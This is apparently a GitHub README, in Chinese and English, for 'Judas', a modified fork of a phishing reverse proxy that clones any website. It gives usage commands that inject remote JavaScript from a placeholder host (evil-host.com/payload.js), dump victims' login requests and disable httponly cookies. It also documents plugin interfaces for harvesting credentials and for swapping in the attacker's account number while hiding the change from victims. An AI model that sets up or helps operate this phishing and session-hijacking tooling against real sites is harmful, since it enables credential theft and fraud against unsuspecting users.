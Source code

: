 Judas
=====
Judas 是一个可扩展化的钓鱼代理.
通过快速克隆任意网站。在任意网站中植入钓鱼 js 进行钓鱼。本项目克隆自 [JonCooperWorks/judas](https://github.com/JonCooperWorks/judas)。并对其进行稍微修改

```
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -cookie-domain string
        set Cookies Domain
  -dump-url string
        dump request URL * is no dump (default "*")
  -inject-js string
        URL to a JavaScript file you want injected.
  -inject-url string
        target URL to a JavaScript file you want injected. default * is all ',' split (default "*")
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -proxy-ca-key string
        Proxy CA key for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -v    show version
  -with-profiler
        Attach profiler to instance.

```

Building
--------
To build `judas`, simply run `go build`.
 ```shell
 make build
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

修改侦听地址

```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

从URL中注入 js

```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```
**默认是注入所有的js**

从文件中注入 js

```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js test.js
```

**默认是注入所有的js**

## 注入特定的 url
```shell
judas --target  https://target-url.com             \
     --insecure --address=10.10.200.1:8080         \
     --inject-js= https://evil-host.com/payload.js \
     --inject-url="/index.php/Index/index"
```



### dump 下来原始请求

```shell
judas --target  https://target-url.com              \
     --insecure --address=10.10.200.1:8080          \
     --inject-js= https://evil-host.com/payload.js  \
     --inject-url="/index.php/Index/index"          \
     --dump-url="/index.php/Public/checkLogin"
```

**注意** --`dump-url` `--inject-url` 多个参数用英文`,` 隔开不可有空格

### 取消 httponly 设置
```shell
judas --target  https://target-url.com              \
     --insecure --address=10.10.200.1:8080          \
     --inject-js= https://evil-host.com/payload.js  \
     --inject-url="/index.php/Index/index"          \
     --dump-url="/index.php/Public/checkLogin"      \
     --cookie-httponly=false
```



插件功能
-------

Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```

### 修复一些bug
* Location 跳转 和目标域名不同域名跳转不变。相同跳转到代理地址   
* 可选注入到特定 URL 中不区分大小写 
*  解决 cookie 跨域导致无法登录   

### 注意
1. 使用域名或者特定的IP 不要使 0.0.0.0 这类
2. 如果无法登录请试试 `--cookie-httponly=false`
